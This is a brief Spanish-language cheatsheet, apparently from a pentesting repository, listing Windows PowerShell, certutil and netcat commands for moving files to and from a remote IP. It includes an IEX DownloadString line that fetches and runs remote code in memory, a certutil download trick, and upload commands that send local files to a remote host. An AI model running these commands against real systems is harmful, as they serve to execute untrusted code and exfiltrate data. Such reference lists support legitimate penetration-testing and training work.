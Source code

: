 # Cheatsheet ⚙

## Windows Methods 🔌

| Comando |
|:---:|
| **Descargar Archivos** ⏬|
| **`(New-Object Net.WebClient).DownloadFile('[URL]', '[File Output]')`** |
| **`IEX(New-Object Net.WebClient).DownloadString('[URL]')`** |
| **`Invoke-WebRequest [URL] -OutFile "[Filename Output]"`** |
| **`[IO.File]::WriteAllBytes("<Path Destino>", Convert.Frombase64String("<Data64>"))`** |
| **`(New-Object Net.WebClient).downloadFile('ftp://<IP>/<File>', '<Output File>')`** |
| **`certutil.exe -verifyctl -split -f http://<IP>/<File>`** |
| **Subir Archivos** ⏫ |
| **`copy "<File>" \\<IP>\<Share>`** |
| **`(New-Object Net.WebClient).UploadFile('fpt://<IP>/<Name File>', "[Archivo Local]")`** |

## Linux Methods 🐧

| Comando |
|:---:|
| **Send File:** `nc --send-only <IP> <Port> < [File To Transfer]`** |
| **Receive File:** `nc -l -p <Port> --recv-only > [File Name Output]` |
